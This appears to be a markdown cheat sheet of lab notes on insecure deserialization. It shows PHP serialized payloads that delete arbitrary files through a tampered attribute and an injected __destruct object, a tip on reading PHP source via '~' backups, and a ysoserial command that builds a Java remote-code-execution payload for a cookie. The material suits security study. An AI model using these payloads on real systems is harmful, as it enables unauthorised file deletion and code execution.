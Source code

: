 <br><br>

### __Exploit Application Functionality with Serialized Object – PHP__

* An application has a “Delete Account”  functionality and is using a user controllable serialized PHP Object to determine the file that it deletes.

* For Example:  The application uses the “avatar_link” attribute to delete a file from the server’s filesystem.

```php
s:11:"avatar_link";s:19:"/users/wiener/avatar"
```

* This vector can be used to delete other files by changing the value of the attribute and submitting it in the request:

```php
s:11:"avatar_link";s:23:"/home/carlos/morale.txt"
```

<br><br>

### __Arbitrary Object Injection – PHP__

* Enumerate the application and identify if there are any leaked source code files that contain sensitive fields/functionality.  We can read source code files sometimes by appending a tilde ( ~ ) character at the end of it's name.  For example, Test.php~ can show the PHP file's source code instead of just executing it.

* The PHP class contains a magic method “\_\_destruct” that will invoke the unlink() method on the lock_file_path attribute.  This deletes the file that is passed to the method.

* Create the following PHP serialized Object to delete a file in the server’s file system:

```php
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

<br><br>

### __Java Deserialization with Apache Commons – Pre-built Gadget Java__

* Pre-built gadget exploitation.  We can use the “ysoserial” tool to generate a malicious serialized Object containing a remote code execution payload.  __Note:__ that the “ysoserial” tool is dependent on Java version 15 or lower.

* Resource:  https://forum.portswigger.net/thread/ysoserial-stopped-working-b5a161f42f  

* Example payloads:

   * java -jar path/to/ysoserial.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 -w 0 > test.txt

* This payload can be used to exfiltrate date, for example.  Copy and paste the results into the Cookie of the target application.  Check out more obfuscation examples in the "Command Injection" folder.
